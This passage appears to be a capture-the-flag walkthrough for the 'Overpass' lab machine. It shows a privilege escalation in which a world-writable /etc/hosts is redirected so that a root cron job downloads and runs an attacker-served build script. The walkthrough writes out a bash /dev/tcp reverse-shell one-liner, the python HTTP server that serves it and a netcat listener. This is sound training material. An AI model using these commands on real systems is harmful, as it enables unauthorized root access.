 ```
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
## GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
## GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
## GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
## GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```
Basically, the job runs and updates builds from latest code using go. If I can change the buildscript to execute a reverse shell, it will be executed by root and I will have escalated privileges. In order to do so, I noticed the ```overpass.thm``` in crontab, meaning it references the ```/etc/hosts``` file to obtain the correct IP address. Therefore, if I can change the ```/etc/hosts``` file to point at my remote machine when it calls the buildscript, the job will call my attack box IP address and run the buildscript on my machine. To ensure I can update ```/etc/hosts``` file I checked the permissions. 
```
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```
Right now, the ```/etc/hosts``` file looks like the below. 
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
It needs to be changed to reflect my local/attack box IP. 
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
[Local IP] overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
Let me create a reverse shell in bash and place it within my local machine at ```/downloads/src/buildscript.sh```. 
```
echo "bash -i >& /dev/tcp/[Local IP]/5555 0>&1" > buildscript.sh
```
After creating the buildscript, I need to start up a python3 http server on port 80 in the parent directory of ```/downloads/src/buildscript.sh```for the remote machine to call with the crontab. 
```
sudo python3 -m http.server 80
```
Now, in a different terminal, I start a netcat listener on port 5555 to receive the reverse shell. 
```
nc -lnvp 5555
```
After a certain period of time, the job calls the build script, creates a reverse shell and escalates privilege! 
